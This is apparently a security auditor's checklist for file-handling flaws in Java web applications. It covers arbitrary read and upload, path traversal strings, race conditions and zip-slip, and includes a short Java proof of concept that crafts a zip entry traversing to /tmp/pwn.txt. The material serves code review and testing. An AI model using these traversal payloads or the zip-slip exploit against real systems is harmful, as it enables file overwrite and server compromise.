 ## Read
- Arbitrary file read
  - physical path
  - configure files
    - server
    - application
  - source codes
    - war/jar
    - zip/rar
  - other
    - db
    - key

## Upload
- Arbitrary file write/upload
  - webshell
  - replace javaagent.jar, jar in classpath
  - System file: related to [ATT&CK]()
    - crontab
    - .profile
  - key configure file
    - indirect control file content
- Cross directory: path splice user controlled file-name without checking or filter
  - contains(. / .. / %00 / ../ / ..\ /)
- Race Condition
  - file delete and can be access temporarily
- several processes
  - step1 upload and step2 modify
- DoS
  - path init: should be path but replace with a file
  - big size

## Import/
Trace the file parse logic,

## Delete
- Arbitrary
  - DoS
- 

## Move
  Guess the meaning of parameter in the request body, maybe a path name or other:
- overwrite important file to DoS
- move sensitive file and read
- upload file and move to web directory: jar/jsp


## Decompress
```java
input = RequestPram(file);    # file = ../../../../tmp/poc.txt
File file = path + input; 
new ZipEntry(file);
```
Exploit
```java
import java.io.File;
 import java.io.FileOutputStream;
 import java.util.zip.ZipEntry;
 import java.util.zip.ZipOutputStream;
 public class ZipExp { public static void main(String[] args) throws Exception { StringBuilder sb = new StringBuilder();
 sb.append("just a test");
 File f = new File("D:\\exp.zip");
 ZipOutputStream out = new ZipOutputStream(new FileOutputStream(f));
 ZipEntry e = new ZipEntry("../../../../../../../../../../../../../../../../../../../../tmp/pwn.txt");
 out.putNextEntry(e);
 byte[] data = sb.toString().getBytes();
 out.write(data, 0, data.length);
 out.closeEntry();
 out.close();
 } }
```

## Combine business logic
- business logic
- sensitive function
  - execute script
  - 

## Function
### Archive
- ZipEntry.getName();
- request.getFileName.getOriginalFileName();


### xlsx
- XMLReader.setFeture
- 
